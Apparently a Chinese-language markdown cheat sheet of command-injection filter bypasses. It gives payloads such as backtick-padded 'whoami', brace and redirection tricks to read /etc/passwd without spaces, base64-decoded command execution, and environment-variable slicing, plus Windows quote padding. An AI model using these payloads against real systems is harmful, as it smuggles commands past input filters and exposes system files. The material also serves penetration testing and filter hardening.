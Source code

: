 - 反引号污染

  ```
  wh`asdfasdfasdfsazx`o`asdfasdfazxcv`ami
  ```

### 花括号、重定向符号绕过空格限制

- 花括号

  ```
  cat /etc/passwd -> {cat,/etc/passwd}
  ```

- 重定向符号

  <为输入重定向，>为输出重定向

  ```
  cat /etc/passwd -> cat<>/etc/passwd
  ```

### base64编码

首先对whoami进行base64编码

```
echo whoami | base64
```

再对其结果进行解码（组合为一个命令），加上``执行命令

```
`echo d2hvYW1pCg==|base64 -d`  #whoami
```

### 干扰符号

$1-9、$*、$@、$"、$""、$()、'、"

将干扰符号插在执行命令的字符中

### 环境变量截取

```
echo $PATH  #输出环境变量 /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/root/bin
echo ${#PATH}  #获取环境变量长度
wh${PATH:6:1}ami
```

### windows

#### 干扰符号

- "双引号

  ```
  w""""""""""hoami
  ```
